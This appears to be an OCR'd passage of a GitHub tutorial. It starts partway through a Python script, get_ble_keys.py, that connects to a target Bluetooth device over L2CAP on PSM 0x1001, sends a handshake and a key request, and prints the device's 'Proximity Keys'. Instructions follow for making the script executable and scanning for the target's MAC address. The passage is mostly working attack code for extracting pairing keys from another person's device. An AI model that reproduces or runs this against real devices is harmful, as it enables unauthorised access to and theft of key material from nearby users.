 ```python
        sys.exit(1)

    bdaddr = sys.argv[1]
    PSM = 0x1001

    handshake = bytes.fromhex("00 00 04 00 01 00 02 00 00 00 00 00 00 00 00 00")
    key_req = bytes.fromhex("04 00 04 00 30 00 05 00")

    sock = socket.socket(socket.AF_BLUETOOTH, socket.SOCK_SEQPACKET, socket.BTPROTO_L2CAP)
    sock.connect((bdaddr, PSM))
    sock.send(handshake)
    sock.send(key_req)

    try:
        while True:
            pkt = sock.recv(1024)
            keys = parse_proximity_keys_response(pkt)
            if keys is not None:
                print("Proximity Keys:")
                for name, key_bytes in keys:
                    print(f"  {name}: {hexdump(key_bytes)}")
                break
    finally:
        sock.close()

if __name__ == "__main__":
    main()
```

### **Save and Set Permissions**

![Bash](https://img.shields.io/badge/language-Bash-blue)
```bash
bash
# Save file: Ctrl+O -> Enter -> Ctrl+X
chmod +x get_ble_keys.py
```

<br>
<br>

## 🔍 Obtain Target Device MAC Address
### Method 1: Bluetooth Scanning

![Bash](https://img.shields.io/badge/language-Bash-blue)
```bash
bluetoothctl scan on
# Wait for devices to appear, record MAC address (format: XX:XX:XX:XX:XX:XX)
# Press Ctrl+C to stop scanning
```
